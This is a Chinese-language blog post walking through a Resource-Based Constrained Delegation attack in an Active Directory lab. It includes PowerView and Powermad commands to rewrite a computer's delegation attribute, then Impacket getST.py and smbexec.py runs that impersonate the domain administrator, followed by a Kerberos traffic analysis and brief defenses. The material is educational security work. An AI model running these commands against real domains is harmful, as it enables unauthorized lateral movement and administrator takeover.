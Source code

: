 ```yaml
---
title: 基于资源的约束性委派
published: 2024-10-01
description: "基于资源的约束性委派学习"
image: "./WuZhi.png"
tags: ["Domain", "Windows", "Pentest"]
category: Windows
draft: false
---
```


# 基于资源的约束性委派(RBCD)

前面两篇文章讲的[非约束性委派]()和[约束性委派]()都需要有管理员权限。因此微软在Windows server 2012引入了基于资源的约束性委派，它不需要管理员权限去设置，而是把设置属性权限交给了机器本身

# 约束性委派和RBCD的区别

如果都是通过委派从服务A模拟用户访问服务B。在约束性委派相当于是正向委派，由服务A通过设置msDS-AllowedToDelegateTo属性的值为服务B，来使A能模仿用户访问服务B。
RBCD则是反向委派的，不需要设置服务A的msDS-AllowedToDelegateTo属性的值，而需要在服务B上设置msds-allowedtoactonbehalfofotheridentity属性值为服务A的SID

# 漏洞利用条件

1. 拥有一个域用户凭据，域用户可以创建机器账户(最多只能创建10个)，而机器账户可以当作服务账户使用，所以拥有一个域用户凭据就相当于控制了一个服务A
2. 具有修改服务B的msds-allowedtoactonbehalfofotheridentity属性权限，即需要用户对目标机器有写入属性的权限，机器账户自身和创建机器账户(如把主机加入到域中的用户)的用户即拥有该权限


# 实验环境

- 域控: WIN-HSTT0ETJU78 ( 10.0.0.133 )
- 域成员: WIN2012R203 ( 10.0.0.137 )
- 域成员: WIN7 ( 10.0.0.138 )
- 域管理员: Administrator
- 普通域用户: hack
- 域: xie.com

使用`hack`用户将`WIN2012R203`主机加入域，`hack`就会拥有对`WIN2012R203`主机的`msds-allowedtoactonbehalfofotheridentity`属性修改权限。此外也可以通过以下方式使`hack`拥有对`WIN2012R203`属性写入的权限，`All`即`GenericAll(所有权限)`

```powershell
Add-DomainObjectAcl -TargetIdentity "CN=WIN2012R203,CN=Computers,DC=xie,DC=com" -PrincipalIdentity hack -Rights All -Verbose
```

# 攻击复现

假设现在已经获取了域内WIN7主机xie\hack域用户，现在需要横向到WIN2012R203主机，通过下面的脚本看到当前，可以看到`hack`用户对[User-Account-Restrictions](https://learn.microsoft.com/en-us/windows/win32/adschema/r-user-account-restrictions#windows-server-2012)具有`WriteProperty`写入权限，而`User-Account-Restrictions`里面包括了`msds-allowedtoactonbehalfofotheridentity`属性，所以hack用户可以对WIN2012R203进行基于资源的约束性委派攻击
```powershell
Import-Module .\PowerView.ps1
$AttackerSID = Get-DomainUser hack -Properties objectsid | Select -Expand objectsid
$ACE = Get-DomainObjectACL "WIN2012R203.xie.com" -ResolveGUIDs | ?{$_.SecurityIdentifier -match $AttackerSID}
$ACE | Select-Object ObjectAceType,ActiveDirectoryRights

#ObjectAceType                           ActiveDirectoryRights
#-------------                          ---------------------
#User-Logon                             WriteProperty
#Description                            WriteProperty
#Display-Name                           WriteProperty
#SAM-Account-Name                       WriteProperty
#DNS-Host-Name-Attributes               Self
#Validated-SPN                          Self
#User-Account-Restrictions              WriteProperty
#                                       ExtendedRight, GenericRead
```

此外[ActiveDirectoryRights](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=net-8.0#fields)查询结果如果是`GenericAll`,`WriteProperty`,`GenericWrite`也是可以的，如下

```
BinaryLength          : 36
AuditFlags            : None
InheritanceFlags      : None
PropagationFlags      : None
AceFlags              : None
AccessMask            : 32
AceType               : AccessAllowed
ObjectSID             : S-1-5-21-2255574704-2553525763-2083768959-1114
SecurityIdentifier    : S-1-5-21-2255574704-2553525763-2083768959-1119
IsCallback            : False
ObjectDN              : CN=WIN2012R203,CN=Computers,DC=xie,DC=com
AceQualifier          : AccessAllowed
IsInherited           : False
ActiveDirectoryRights : WriteProperty
OpaqueLength          : 0
```

以沦陷的`WIN7`主机，通过以下方式创建一个机器账户`machine`，这样就得到了一个服务A

```powershell
Import-Module Powermad.ps1
New-MachineAccount -MachineAccount machine -Password $(ConvertTo-SecureString "Abcd@1234" -AsPlainText -Force)
```

用`hack`用户权限修改`WIN2012R203`主机的`msds-allowedtoactonbehalfofotheridentity`属性为`machine`的`SID`，即服务A
```powershell
Import-Module PowerView.ps1
$IdentitySID = Get-DomainComputer | Where-Object { $_.name -eq "machine" } | Select-Object -ExpandProperty objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($IdentitySID))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer "WIN2012R203.xie.com" | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
#检查是否修改成功
Get-DomainComputer WIN2012R203 -Properties msds-allowedtoactonbehalfofotheridentity
```

接下来就可以在攻击机进行以下操作

```bash
echo "10.0.0.137 WIN2012R203.xie.com" | sudo tee -a /etc/hosts
python getST.py -dc-ip WIN-HSTT0ETJU78.xie.com xie.com/machine$:Abcd@1234 -spn cifs/WIN2012R203.xie.com -impersonate administrator
export KRB5CCNAME=administrator.ccache
python smbexec.py -no-pass -k WIN2012R203.xie.com
```

# 攻击流量分析

全程涉及6个包

![package](./package.png)

第一个包是`machine$`向KDC认证身份申请可转发的TGT

![reqTGT](./reqTGT.png)

第二个包是KDC返回TGT

![TGT](./TGT.png)

第三个包是以machine服务账户代表administrator用户向KDC申请访问自身服务的ST

![s4u2self](./s4u2self.png)

第四个包是KDC返回不可转发的ST，但是基于资源的约束性委派S4u2Self返回的ST即使不可转发也能转给S4u2Proxy使用

![ST1](./ST1.png)

第五个包是machine$拿上一步获得的ST向KDC申请WIN2012R203主机的cifs服务的ST

![ST2](./ST2.png)

第六个包是KDC返回访问WIN2012R203主机的cifs服务的可转发ST

![ST3](./ST3.png)

# 委派防御

- 高权限用户不能被委派
- 主机账户需要设置委派时，只能设置约束性委派
- 可以将需要保护的账户添加到Protected Users组当中

# 参考
- <https://github.com/Kevin-Robertson/Powermad.git>
- <https://learn.microsoft.com/en-us/windows/win32/adschema/r-user-account-restrictions#windows-server-2012>